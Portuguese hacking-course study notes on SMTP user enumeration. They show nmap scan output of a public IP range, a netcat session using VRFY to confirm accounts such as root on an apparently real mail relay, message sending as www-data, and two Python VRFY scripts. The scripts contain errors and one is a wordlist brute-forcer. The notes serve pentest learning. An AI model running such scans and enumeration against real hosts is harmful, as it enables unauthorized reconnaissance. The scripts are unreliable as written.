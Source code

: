```ad-tldr
<mark style='background:var(--mk-color-purple)'>PORTA PADRAO DO SMTP 25</mark>
```

```bash
nmap --open -sS -p 25 -Pn  37.59.174.0/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-26 19:36 UTC
Nmap scan report for 37.59.174.28
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 37.59.174.29
Host is up (0.24s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip30.ip-37-59-174.eu (37.59.174.30)
Host is up (0.24s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip31.ip-37-59-174.eu (37.59.174.31)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip74.ip-37-59-174.eu (37.59.174.74)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip75.ip-37-59-174.eu (37.59.174.75)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip76.ip-37-59-174.eu (37.59.174.76)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip77.ip-37-59-174.eu (37.59.174.77)
Host is up (0.24s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip78.ip-37-59-174.eu (37.59.174.78)
Host is up (0.22s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip79.ip-37-59-174.eu (37.59.174.79)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip100.ip-37-59-174.eu (37.59.174.100)
Host is up (0.24s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip102.ip-37-59-174.eu (37.59.174.102)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 37-59-174-196.dynamixhost.net (37.59.174.196)
Host is up (0.24s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 37-59-174-197.dynamixhost.net (37.59.174.197)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 37-59-174-198.dynamixhost.net (37.59.174.198)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 37-59-174-199.dynamixhost.net (37.59.174.199)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for ip202.ip-37-59-174.eu (37.59.174.202)
Host is up (0.23s latency).

PORT   STATE SERVICE
25/tcp open  smtp

Nmap done: 256 IP addresses (256 hosts up) scanned in 38.82 seconds

```

Tentamos nos conectar agora utilizando o [[Hacking/Desec/Swiss Army Knife/Netcat]]

```bash
nc -v 172.30.0.128 25

ip102.ip-37-59-174.eu [37.59.174.102] 25 (smtp) open
220 relay.irvinei.com ESMTP Sendmail 8.15.2/8.15.2/Debian-18; Tue, 26 Mar 2024 19:46:00 GMT; (No UCE/UBE) logging access from: [177.44.46.66](FORGED)-177-44-46-66.lav-fb.mastercabo.com.br [177.44.46.66] (may be forged)
EHLO desec
250-relay.irvinei.com Hello 177-44-46-66.lav-fb.mastercabo.com.br [177.44.46.66] (may be forged), pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-AUTH DIGEST-MD5 CRAM-MD5
250-DELIVERBY
250 HELP
```

Atraves do protocolo ``SMTP``  eh possivel  a gente fazer uma  enumeracao de usuarios no  sistema.

Vamos verificar os comandos disponivel com ``HELP``

```bash
HELP
214-2.0.0 This is sendmail version 8.15.2
214-2.0.0 Topics:
214-2.0.0       HELO    EHLO    MAIL    RCPT    DATA
214-2.0.0       RSET    NOOP    QUIT    HELP    VRFY
214-2.0.0       EXPN    VERB    ETRN    DSN     AUTH
214-2.0.0       STARTTLS
214-2.0.0 For more info use "HELP <topic>".
214-2.0.0 To report bugs in the implementation see
214-2.0.0       http://www.sendmail.org/email-addresses.html
214-2.0.0 For local information send email to Postmaster at your site.
214 2.0.0 End of HELP info

```

Agora vamos verificar se existge algum usuario 

```bash
VRFY ricardo
550 5.1.1 ricardo... User unknown

VRFY root
250 2.1.5 root <root@relay.irvinei.com>

```

Otimo 🙂 o usuario <mark style='background:var(--mk-color-red)'>root</mark> existe!

Aqui podemos identificar um padrao , por exemplo sempre quando ha um usuario existente ele retorna um codigo ``250`` seguido do usuario , e quando nao existe o codigo retornado eh ``550`` dizendo que nao existe , isso pode ser uma vulnerabilidade porque isso me permite fazer enumeracao de usuarios. 

```bash
VRFY root
250 2.1.5 root <root@relay.irvinei.com>
VRFY www-data
250 2.1.5 www-data <www-data@relay.irvinei.com>
VRFY joao
550 5.1.1 joao... User unknown

```

Enviando mensagem de um usuario para outro no [[Hacking/Desec/Swiss Army Knife/Telnet]] com [[SMTP]]

```bash
VRFY www-data
250 2.1.5 www-data <www-data@relay.irvinei.com>

MAIL FROM: <www-data@relay.irvinei.com>
250 2.1.0 <www-data@relay.irvinei.com>... Sender ok


RCPT TO: root
250 2.1.5 root... Recipient ok

DATA
354 Enter mail, end with "." on a line by itself
Ola root
.
250 2.0.0 42QK2skw1349920 Message accepted for delivery

```

Acabamos de enviar uma mensagem para o usuario <mark style='background:var(--mk-color-red)'>root</mark> , note que temos uma condicao de vulnerabilidade ao tentarmos enviar uma mensagem para algum usuario inexistente:
```bash
RCPT TO: <wallacehenri11@gmail.com>
550 5.7.1 <wallacehenri11@gmail.com>... Relaying denied. IP name possibly forged [177.44.46.66]

```

Podemos fazer uma enumeracao de quais usuarios estao ativos neste sistema operacional atraves desse protocolo [[SMTP]]

<h3 align="center">SMPT EM PYTHON</h3>

```python
import socket
import sys

tcp = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
tcp.connect((sys.argv[1], 25))
banner = tcp.recv(1024)
print banner

tcp.send("VRFY"+sys.argv[2]+"\r\n")
user = tcp.recv(1024)
print user
```


### Brute force

```python
import socket, sys , re

file = open("wordlist.txt")

for line in file:
	tcp.socket.socket(socket.AF_INET, socket.SOCKET_STREAM)
	tcp.connect((sys.argv[1], 25))
	banner = tcp.recv(1024)
	tcp.send("VRFY "+linha)
	user = tcp.recv(1024)
	if re.search("252", user):
		print("USUARIO ENCONTRADO:" + user.strip("252 2.0.0"))
```